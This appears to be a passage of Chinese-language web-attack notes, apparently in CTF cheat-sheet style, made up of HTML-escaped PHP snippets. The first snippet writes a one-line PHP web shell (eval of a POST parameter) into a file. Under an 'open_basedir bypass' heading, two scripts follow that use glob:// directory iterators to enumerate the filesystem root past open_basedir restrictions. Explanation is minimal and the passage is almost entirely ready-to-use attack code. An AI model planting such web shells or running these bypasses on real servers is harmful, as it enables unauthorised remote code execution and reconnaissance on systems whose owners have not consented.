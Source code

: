 ```
file_put_contents(&#39;1.php&#39;,&#39;&lt;?php eval($_POST[&#39;aa&#39;]);?&gt;&#39;);
```

写入一个文件

### open_basedir绕过

获取目录

```
&lt;?php
    print_r(ini_get(&#39;open_basedir&#39;).&#39;&lt;br&gt;&#39;);
    $dir_array = array();
    
    $dir = new DirectoryIterator(&#39;glob:///*&#39;);
    foreach($dir as $d){
        $dir_array[] = $d-&gt;__toString();
    }
    
    $dir = new DirectoryIterator(&#39;glob:///.*&#39;);
    foreach($dir as $d){
        $dir_array[] = $d-&gt;__toString();
    }
    
    sort($dir_array);
    foreach($dir_array as $d){
        echo $d.&#39; &#39;;
    }
?&gt;
```

```
&lt;?php
print_r(ini_get(&#39;open_basedir&#39;).&#39;&lt;br&gt;&#39;);
$dir_array = array();

$dir = new FilesystemIterator(&#39;glob:///*&#39;);
foreach($dir as $d){
    $dir_array[] = $d-&gt;__toString();
}

$dir = new FilesystemIterator(&#39;glob:///.*&#39;);
foreach($dir as $d){
    $dir_array[] = $d-&gt;__toString();
}

sort($dir_array);
foreach($dir_array as $d){
    echo $d.&#39; &#39;;
}
show_source(__FILE__);

?&gt;
```
